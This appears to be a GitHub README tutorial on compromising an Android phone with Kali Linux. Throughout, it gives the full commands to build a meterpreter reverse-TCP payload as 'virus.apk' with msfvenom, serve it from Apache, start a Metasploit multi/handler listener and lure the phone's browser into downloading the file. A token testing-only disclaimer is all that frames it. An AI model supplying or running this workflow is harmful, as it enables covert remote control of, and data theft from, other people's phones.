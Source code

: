 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. 

**More info at https://www.kali.org/**

## 1) Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

**You can know th IP adress of your device by entering ```ifconfig```**

## 2) Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make sure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### 3) Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 
 ## 4) Setting up the msfconsole
 
 Now we need to set up a listener in order for capturing any activity signals from a victim. In order to do so, enter the following commands.
 
 **Start the console** ```msfconsole```
 
 **Start the multi handler** ```use multi/handler```
 
 **Set the payload** ```set PAYLOAD android/meterpreter/reverse_tcp```
 
 **Set the Host IP** ```set LHOST (THE IP ADRESS USED BEFORE WITHOUT THE BRACKETS)```
 
 **Set the port** ```set LPORT 8080```
 
 **Start the process!** ``exploit``
 
 ## 5) Downloading the malicous file in the target device.
 
 Open the phones browser, and type the ip adress as you did before followed by this ```/virus.apk```
 
 **The link should look something like this; 192.168.0.152/virus.apk**

## **The process is finally done. You can now try atacking the phone with the console. Type ```help``` to list all the commands aviable. Enjoy! :D**

